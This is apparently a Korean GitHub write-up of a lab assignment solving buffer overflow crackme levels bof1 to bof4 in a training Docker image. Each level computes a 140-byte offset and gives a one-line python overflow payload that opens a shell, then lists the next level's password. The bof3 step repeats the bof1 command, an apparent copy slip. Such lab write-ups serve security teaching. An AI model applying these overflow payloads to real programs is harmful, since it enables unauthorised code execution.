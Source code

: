 # Assignment

```shell
 $ docker run -it --privileged ccss17/bof
 $ cd crackme
```

> ID, Password는 °ࡇ° ? ? ?

<br/>

### 4 - bof1

```shell
 $ vi bof1.c
```

![04-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-bof1_code.png?raw=true)

bof1.c의 소스 코드를 확인한다.

![04-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-buffer_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![04-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![04-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ (python -c "print 'x'*140 + 'aaaa'";cat) | ./bof1
```

![04-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/04-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof2.pw를 읽어준다.

> bof2의 비밀번호는 e31a76fc 이다.

<br/>
<br/>

### 5 - bof2

```shell
 $ vi bof2.c
```

![05-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-bof2_code.png?raw=true)

bof2.c의 소스 코드를 확인한다.

![05-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-buf_address.png?raw=true)

strcpy를 찾아서 buf의 주소를 알아낸다.

![05-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-innocent_address.png?raw=true)

compare 함수 부분에 가서 innocent의 주소를 알아낸다.

![05-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ ./bof2 `python -c "print 'x'*140+'aaaa'"`cat
```

![05-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/05-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof3.pw를 읽어준다.

> bof3의 비밀번호는 78ac9531 이다.

<br/>
<br/>

### 6 - bof3

```shell
 $ vi bof3.c
```

![06-bof3_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-bof3_code.png?raw=true)

bof3.c의 소스 코드를 확인한다.

![06-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-buf_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![06-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![06-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ (python -c "print 'x'*140 + 'aaaa'";cat) | ./bof1
```

![06-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/06-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof4.pw를 읽어준다.

> bof4의 비밀번호는 64869b0d 이다.

<br/>
<br/>

### 7 - bof4

```shell
 $ vi bof4.c
```

![07-bof_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-bof4_code.png?raw=true)

bof4.c의 소스 코드를 확인한다.

![07-buf_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-buf_address.png?raw=true)

gdb 실행파일을 열어서 buf 주소를 확인한다.

![07-innocent_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-innocent_address.png?raw=true)

gdb 실행파일을 열어서 innocent 주소를 확인한다.

![07-sub_address](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-sub_address.png?raw=true)

buf와 innocent의 거리를 알아낸다.
innocent의 주소가 -4되어 있었기 때문에 구한 거리에서 -4를 해준다.

즉 buf와 innocent의 거리는 140이다.

```shell
 $ ./bof4 `python -c "print 'x'*140+'\x78\x56\x34\x12'"`
```

![07-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/07-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof5.pw를 읽어준다.

> bof5의 비밀번호는 c75cfe84 이다.
